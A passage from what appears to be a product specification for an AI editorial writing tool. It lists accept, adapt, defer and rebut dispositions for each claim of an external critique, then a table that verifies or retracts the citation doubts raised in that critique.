| 5.3 | The author seat and rejection semantics fit the emerging norm | ALIGNED | **accept** — T3, REQ-WF-9 |
| 5.4 | Uniform generation homogenizes; optimize for sharpening the author's thinking | CRITIQUE-WEAKER | **accept the claim, keep the spec's stronger mechanisms** — and the crosswalk's evidence clause is *revised*: the two homogenization citations are real papers in a real Elsevier journal (F.2 #6); Doshi & Hauser 2024 remains the stronger support. The spec's enforcement (voice rations, suggestion-only line edits, round caps, §16.4 row) still exceeds the critique's exhortation; §18 adds the cross-arm convergence signal (REQ-EVAL-12) |

**§6 IDE for arguments**

| # | Claim | Crosswalk | Disposition |
|---|---|---|---|
| 6.1 | Apply the Cursor analogy at domain-structure level | ALIGNED | **accept** — principle 2 |
| 6.2 | The 14-row equivalence table | PARTIAL | **adapt** — 13 of 14 now have real counterparts (revision obligations are first-class as of §11.7); the argument graph is the deliberate absence (REQ-OBJ-15); the "debugger" analogue remains claim→URL tracing, not a step-through inference trace |
| 6.3 | "This should drive the product refactor" | ALIGNED | **accept** — it independently did |

**§7 The canonical object model**

| # | Object | Crosswalk | Disposition |
|---|---|---|---|
| 7.1 | Project | ALIGNED | **accept** (§11.3) |
| 7.2 | Manuscript (versioned) | ALIGNED | **accept** (§11.3, §11.6) |
| 7.3 | Claim with location, type, confidence, load-bearingness | PARTIAL | **adapt** — `claim.kind` adopted (REQ-OBJ-19); numeric `confidence` **rebutted**: false precision atop seven calibrated verdicts, contrary to the no-aggregate-scores philosophy; tier already carries prioritization (§11.7 B4) |
| 7.4 | Source with provenance/access metadata | ALIGNED | **accept** (§11.3) |
| 7.5 | Evidence relation: support/contradict/contextualize/unverifiable | CRITIQUE-WEAKER | **rebut-in-part, adopt-in-part** (§11.7 B4): the verdict vocabulary stays frozen — seven enforced values beat four unenforced labels — but the critique's *edge level* was a real gap in arity, adopted as `claim_sources[]` stance edges (REQ-OBJ-18) |
| 7.6 | Argument node (premise, inference, objection…) | ABSENT | **defer, evidence-gated** — no object in MVP/1.x; v2 falsifiable spike on §18's corpus with binding kill criteria (REQ-OBJ-15; §11.7 B3: relation F1 ≈ 61 in-genre, κ = 0.56 on editorials, no writer-benefit study) |
| 7.7 | Finding | ALIGNED | **accept** (§5.7, §11.3) |
| 7.8 | Disposition (the five verbs) | ALIGNED | **accept** — taken from the repo, kept verbatim |
| 7.9 | Revision obligation: durable task closed only when discharged | ALIGNED (at one-round granularity) | **accept, and the critique's deeper point conceded** — the crosswalk's ALIGNED was true per round and false per project; v0.3 adopts the durable object exactly as the critique meant it (§11.7, REQ-OBJ-1…8) |
| 7.10 | Revision move with rationale and affected obligations | ALIGNED | **accept** — and moves now literally discharge obligations (§5.8) |
| 7.11 | Review run, reproducible | ALIGNED | **accept** — exceeds the ask (§11.3 Run) |
| 7.12 | Reader/venue profile as calibration target | ALIGNED | **accept** (§6.7); empirical grounding remains Later (§1.6 row 5) |
| 7.13 | Author corpus | ALIGNED | **accept** (§9.5) |
| 7.14 | Author model incl. known/disputed preferences | PARTIAL | **adapt** — decision-derived preferences now have a home: the workspace preference profile (§11.7 B2), staged capture-now/learn-later, firewalled from the Editor |
| 7.15 | Decision/provenance event | ALIGNED | **accept** (§6.4, §5.4) |
| 7.16 | "Compounding value lies in this graph" | ALIGNED | **accept** — and v0.3 grows the graph (obligations, stance edges, preference signals) |

**§8 UX implications**

| # | Claim | Crosswalk | Disposition |
|---|---|---|---|
| 8.1 | Manuscript surface | ALIGNED | **accept** (§5.4, §5.7, §5.8) |
| 8.2 | Dossier surface incl. argument map | PARTIAL | **adapt** — 8 of 9 components ship; the argument map follows 7.6's spike |
| 8.3 | Agent/workflow surface | CRITIQUE-WEAKER | **accept** — the spec exceeds every clause (§5.5, §5.6, §6.4, §12) |
| 8.4 | Knowledge surface incl. cross-project layer | PARTIAL | **defer** — the cross-project research library / aggregated rejected-findings view is natural 1.x scope (crosswalk rank 8); per-project layers ship at MVP (§5.13, §9.4, §6.7) |
| 8.5 | Chat is one mode, not the database | ALIGNED | **accept** — emphatic (§7.1, REQ-CHAT-1/2/3) |

**§9 Deprioritize**

| # | Claim | Crosswalk | Disposition |
|---|---|---|---|
| 9.1 | Generic autocomplete | ALIGNED | **accept** — absent |
| 9.2 | Persona councils | ALIGNED | **accept** — dropped (§3.4); voices are *author* registers |
| 9.3 | Marketing-copy workflows | ALIGNED | **accept** — never a copy product (§2.1) |
| 9.4 | Full academic workflow at launch | DIVERGES | **rebut-in-part** — the spec ships Academic as a protocol config row while excluding the feared tail (no reference manager, no statistical review, no institutional sales); Q-15 is binding and the pay-per-piece evidence real. The *headline* half of the concern is accepted via Essay-led GTM (Q-21) |
| 9.5 | Don't overbuild Docs parity | ALIGNED | **accept** — the F46 cut went deeper than the critique asked (REQ-SPEC-19) |
| 9.6 | No autonomous publishing | ALIGNED | **accept** — export-only (Q-9) |

**§10 Defensibility (eight assets)** — the full mapping is §1.6; dispositions:

| # | Asset | Crosswalk | Disposition |
|---|---|---|---|
| 10.1 | Editorial methodology | ALIGNED | **accept** — built (§1.6 row 1) |
| 10.2 | Evaluation corpus with blind comparisons | PARTIAL | **accept** — now specced end-to-end as §18; corpus build awaits Q-23 funding; honestly marked "not yet built" in §1.6 |
| 10.3 | Longitudinal author model | ABSENT | **adapt** — designed with the one thing the critique did not address: independence. The asset serves the Drafter and workflow defaults, never Editor judgment (§11.7 B2, REQ-OBJ-10/11) |
| 10.4 | Manuscript/evidence graph | ALIGNED | **accept** — built; v0.3 adds obligations and stance edges |
| 10.5 | Empirically grounded venue calibration | PARTIAL | **defer** — needs north-star telemetry first; explicitly Later (§1.6 row 5) |
| 10.6 | Workflow switching costs | ALIGNED | **accept** — with the recorded honest weakening (whole-account export round-trips, REQ-ACCT-3) |
| 10.7 | Trust/brand | ALIGNED | **accept** — mechanisms at MVP; brand accrues (§1.6 row 7) |
| 10.8 | Open methodology + proprietary evals as audit and distribution | DIVERGES | **rebut-in-part, resolve differently** — protocols stay closed (SS class); the audit story is the transparency floor of outputs *plus* §18.5's published benchmark methodology (baseline prompt verbatim, IAA numbers); the upstream repo as distribution remains an open option, revisited at the first marketing push (§1.6 row 8) |

**§11 Business model**

| # | Claim | Crosswalk | Disposition |
|---|---|---|---|
| 11.1 | Charge for expensive judgment, not always-on economics | ALIGNED | **accept** (§6.1, §14) |
| 11.2 | Free/light diagnostic entry | ALIGNED | **accept** — the trial entitlement is richer (§14.3) |
| 11.3 | Metered deep-review credits | ALIGNED | **accept** (§14.1, §14.4) |
| 11.4 | $30–80/mo serious-writer floor | DIVERGES | **rebut, on fetched evidence** — the floor has no source and the market contradicts it: serious-writer tools cluster $16–36/mo at monthly billing with entry tiers $8–20 (Type $8/$16/$64, Lex ~$18, Sudowrite $19–59, ProWritingAid $30–36, Grammarly $12–30 — research/13 §A1.3). Writer $20 stands; the professional tiers ($100–200) already sit inside the critique's own $100–300 band; prices remain telemetry-tuned (§16.3 #1) |
| 11.5 | Discover price empirically; the denominator is reputation, not tokens | ALIGNED | **accept** (REQ-PROD-16, REQ-BILL-18) |
| 11.6 | Keep compute exposure visible; rigor levels | CRITIQUE-WEAKER | **accept** — the spec builds a metering control plane where the critique asks for a dashboard (§12.7) |

**§12 The benchmark**

| # | Claim | Crosswalk | Disposition |
|---|---|---|---|
| 12.1 | Corpus + professional annotations; blind arms incl. frontier one-shot, iterative, Grammarly, human editors | ABSENT | **accept** — §18 in full (REQ-EVAL-1…8); the largest single adoption of round 2 |
| 12.2 | The twelve metrics | PARTIAL | **accept** — all twelve operationalized with named scorers (REQ-EVAL-11…14); the four company-deciding ones human-adjudicated (REQ-EVAL-8) |
| 12.3 | Pass only with a large, repeatable lift; small lift insufficient | ABSENT | **accept, made numeric** — LIFT: ≥15 points absolute, two consecutive pre-registered waves, guard-railed, with pre-committed consequences including the stop-loss the critique implies (REQ-EVAL-15/16) |

**§13 MVP / validation plan**

| # | Claim | Crosswalk | Disposition |
|---|---|---|---|
| 13.1 | The nine-step core flow | ALIGNED | **accept** — the spec's core loop step for step; also verbatim the beta's flow (REQ-BETA-1) |
| 13.2 | Prove the review-revision loop, not the entire IDE | DIVERGES | **adapt** — the recommended v0.3 sequencing is validation-first, built as a *sequenced Phase 1*, not a scope cut: Phase 0 → benchmark → Review beta (Essay-only, Review+Revise+Fact-check, 10–15 product-PM) → full IDE → public launch, with a recorded decision rule (§17; Q-22 since ratified). Q-8/Q-15 are sequenced, not overturned |
| 13.3 | Instrument everything (the nine-item list) | ALIGNED | **accept** — mapped item-for-item onto §3.5 with the gaps closed (reason codes, move tracing, lineage events, dwell — REQ-BETA-6…12); the one honest exception: time-in-chat is unmeasurable in-product during a chatless beta (REQ-BETA-10) |
| 13.4 | North star = repeat review/revision cycles, not words generated | DIVERGES | **adapt** — the critique's metric governs the beta window (REQ-BETA-2); "pieces accepted per month" — one level downstream, outcome over engagement — resumes at public launch; the argument is now recorded (§3.5), which v0.2 omitted |

**§14–§16 Bull case, bear case, final recommendation**

| # | Claim | Crosswalk | Disposition |
|---|---|---|---|
| 14.1 | The seven-step expansion path | ALIGNED | **accept** — the roadmap parallels steps 1–6; step 7 out of scope for a product spec |
| 15.1 | Frontier marginal cost small, distribution enormous | PARTIAL | **accept** — §16.4 frontier-absorption row, evidence-backed (research/13 §A2); answered structurally by §1.6 and measured by §18 |
| 15.2 | The seven bear forces | PARTIAL | **accept** — the two previously unaddressed forces (prefer-chat; human-editor preference) are now §16.4 rows with mechanisms, not just mentions |
| 15.3 | "A bundle of prompts in a prettier editor is a feature, not a company" | ALIGNED | **accept as the governing test** — §1.6 answers it asset by asset; the two soft spots the crosswalk named (no longitudinal learning, no proven lift) are now §11.7 and §18, and REQ-EVAL-16 forbids pretending if the lift is not there |
| 16.1 | Thesis: agentic development environment for arguments and serious manuscripts | ALIGNED | **accept** — §1.1's category thesis, credited |
| 16.2 | The nine-element system scorecard | PARTIAL | **adapt** — eight of nine now specced (obligations and evaluation/calibration close their ◐/absent marks; provenance's span half stays 1.x); the argument graph remains the deliberate, evidence-gated absence |

### F.2 Corrections to the crosswalk's part 3 (research/13; design/14 unedited by design)

The crosswalk flagged 11 citations as shaky on internal coherence alone, without fetching. Verified verdicts:

| # | Crosswalk suspicion | Verified outcome |
|---|---|---|
| 1 | "Gemini Notebook" / "Deep Research Max" read like confabulated names | **Wrong — both real** (Google, 2026-07-16 and 2026-04-21, fetched); the critique's two most doubted claims were its two most accurate |
| 2 | "Debate or Vote" at mlanthology.org — unknown venue mirror, verify before repeating | **Wrong — fully sound**: NeurIPS 2025 **Spotlight**, confirmed at four independent locations incl. neurips.cc; mlanthology is a legitimate 206k-paper archive |
| 3 | Uncited "2026 survey of AI manuscript-review tools" | **Stands** — no exact source found; the crowded-category premise is independently real (a June 2026 *Tomography* survey; Nature's >50%-adoption finding); cite those, never the phantom |
| 4 | Substack scan date + "reader-facing" characterization need verification | **Verified with mechanism detail**: live 2026-07-21, Pangram-powered, reader-initiated, results private per reader, email excluded, per-post opt-out (moved to no-scan-required after pushback); "How I make this" disclosure surface exists |
| 5 | Grammarly/Superhuman claims are vendor marketing | **Caveat stands; facts verified** — with two corrections in Rhema's favor: Citation Finder advertises *supporting* sources only, and "Superhuman Docs" is the Coda rebrand (the AI writing surface is Grammarly Docs — which ships **Authorship** tracking the critique missed) |
| 6 | Homogenization PIIs "consistent with fabricated references" | **Retracted — both real** (*Computers in Human Behavior: Artificial Humans*, Dec 2025 and May 2026, Crossref-resolved); second paper is mitigation-focused (PARTIALLY); Doshi & Hauser 2024 remains the stronger support |
| 7 | $30–80/mo floor asserted without evidence | **Confirmed collapsed** — no source given, none found; market floor is $8–20 entry / $16–36 cluster; the spec's ladder is the evidenced position |
| 8 | MDPI ICLR-2025 pairing needs checking | **Verified** — *Publications* 14(3):55, 2026-08-25, exactly the claimed pairing (Crossref; full text unread) |
| 9 | Academic Radiology PII over-extended to peer review at large | **Verified with the caveat in degree only** — the paper is literally titled "Large Language Models as Peer Reviewers…"; it *is* a radiology-journal study generalized |
| 10 | Type.ai 150k-word / pricing unverified | **Verified verbatim** (fetched pricing page) |
| 11 | Internal-coherence note: the critique's own price floors undercut its discover-empirically method; §12's rising bar strengthens non-replicable assets | **Stands** — and v0.3 draws the conclusion the critique didn't: the moat statement (§1.6) leads with the non-prompt-replicable assets, and §18 re-steelmans its baseline every wave because the bar moves |
